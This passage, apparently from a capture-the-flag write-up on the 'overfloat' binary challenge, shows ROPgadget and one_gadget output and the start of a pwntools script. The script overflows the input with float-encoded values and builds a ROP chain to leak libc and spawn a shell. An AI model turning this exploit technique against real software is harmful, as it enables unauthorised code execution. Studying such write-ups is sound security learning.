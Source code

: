 ```
$	python ROPgadget.py --binary overfloat | grep "pop rdi"
0x0000000000400a83 : pop rdi ; ret
```

Also for the loop around address, I just tried the start of main and it worked. After we get the libc infoleak we can just subtract the offset of puts from it to get the libc base. The only part that remains is the onegadget. I just tried the first one and it worked (I decided to go with guess and check instead of checking the conditions when the gadget would be executed):

```
$	one_gadget libc-2.27.so 
0x4f2c5 execve("/bin/sh", rsp+0x40, environ)
constraints:
  rcx == NULL

0x4f322 execve("/bin/sh", rsp+0x40, environ)
constraints:
  [rsp+0x40] == NULL

0x10a38c execve("/bin/sh", rsp+0x70, environ)
constraints:
```

With that we have everything we need to build our exploit. Since all of our inputs are interpreted as floats, we have to jump through a few hoops in order to get our inputs correct:

```
from pwn import *
import struct

# Establish values for the rop chain
putsPlt = 0x400690
putsGot = 0x602020
popRdi = 0x400a83

startMain = 0x400993
oneShot = 0x4f2c5

# Some helper functions to help with the float input
# These were made by qw3rty01
pf = lambda x: struct.pack('f', x)
uf = lambda x: struct.unpack('f', x)[0]

# Establish the target, and the libc file
target = remote("challenges.fbctf.com", 1341)
#target = process('./overfloat')
#gdb.attach(target)

# If for whatever reason you are usign a different libc file, just change it out here and it should work
libc = ELF('libc-2.27.so')

# A helper function to send input, made by a teammate
def sendVal(x):
    v1 = x & ((2**32) - 1)
    v2 = x >> 32
    target.sendline(str(uf(p32(v1))))
    target.sendline(str(uf(p32(v2))))

# Fill up the space between the start of our input and the return address
for i in xrange(7):
    sendVal(0xdeadbeefdeadbeef)

# Send the rop chain to print libc address of puts
# then loop around to the start of main
```